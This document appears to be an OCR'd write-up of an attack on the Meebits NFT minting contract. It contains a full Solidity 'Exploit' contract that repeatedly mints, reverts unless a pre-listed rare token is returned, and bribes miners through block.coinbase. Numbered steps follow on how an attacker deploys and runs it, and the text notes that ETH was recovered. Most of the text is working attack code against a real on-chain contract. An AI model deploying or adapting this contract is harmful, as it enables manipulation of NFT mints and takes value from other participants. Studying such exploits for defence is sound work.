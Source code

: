 interface IMeebits {
    function mintWithPunkOrGlyph(uint _createVia) external returns (uint);
}

contract Exploit {

    address private owner;
    mapping(uint => bool) internal meebitIds;
    IMeebits immutable meebits;
    
    constructor(address addr) {
        owner = msg.sender;
        meebits = IMeebits(addr);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "Caller is not owner");
        _;
    }

    function deposit() public payable {}

    function addMeebit(uint meebitId) onlyOwner public {
        meebitIds[meebitId] = true;
    }
    
    function deleteMeebit(uint meebitId) onlyOwner public {
        meebitIds[meebitId] = false;
    }

    function mintMeebit(uint _createVia) public returns(uint){

        // Mint a new meebit with a punk or glyph
        uint id = meebits.mintWithPunkOrGlyph(_createVia);

        // Make sure it's a desired rare meebit
        require(meebitIds[id], "Not a rare meebit");
        
        // Pay miner bribe to include the block
        (bool success, ) = block.coinbase.call{value: 1 ether}("");
        require(success);
        return id;
    }

    function recover(address recipient, uint256 value, bytes memory args) onlyOwner public {
        (bool success, ) = recipient.call{ value: value }(args);
        require(success);
    }
    
}
}
´´´

Attacker would do the following:
1. Create contract with the official meebit contract as a parameter. Attacker address would now be set as owner
1. Call addMeebit for all the rare meebits he would accept
1. Call deposit in a transaction where message.value is 1 eth (this will be used to pay the miners later). This is then deposited to the contract address
1. Create transaction against mintMeebit. If the meebit returned from the official contract was not added from addMeebit, the require statement would roll back the transaction. If the transaction was on the list, he'd use ´block.coinbase.call´ to raise the gas provided for the transaction to 1ETH
1. Retrieve any extra deposited ETH to the contract via recover (10ETH was recovered by attacker)
